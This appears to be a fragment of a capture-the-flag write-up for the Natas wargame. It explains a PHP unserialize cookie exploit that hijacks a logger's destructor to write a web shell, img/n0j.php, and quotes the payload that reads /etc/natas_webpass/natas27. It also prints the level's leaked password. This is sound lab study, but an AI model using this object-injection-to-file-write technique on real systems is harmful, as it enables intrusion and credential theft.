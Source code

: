 ```php
if (array_key_exists("drawing", $_COOKIE)){
            $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
            if($drawing)
                foreach($drawing as $object)
                    if( array_key_exists("x1", $object) &&
                        array_key_exists("y1", $object) &&
                        array_key_exists("x2", $object) &&
                        array_key_exists("y2", $object)){
                            $color=imagecolorallocate($img,0xff,0x12,0x1c);
                            imageline($img,$object["x1"],$object["y1"],
                                    $object["x2"] ,$object["y2"] ,$color)
                        }
        }
```

Our overwritten variables do something since the destructors uses them. Destruct is called at the end of execution of the script which means our cookie has been loaded and replaced initMsg, exitMsg and logFile.

```php
function __destruct(){
            // write exit message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
        }
```

We now open our custom log file 'img/n0j.php' which contains `<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>\n"`, so we when we load it we get the password of natas27.

55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ
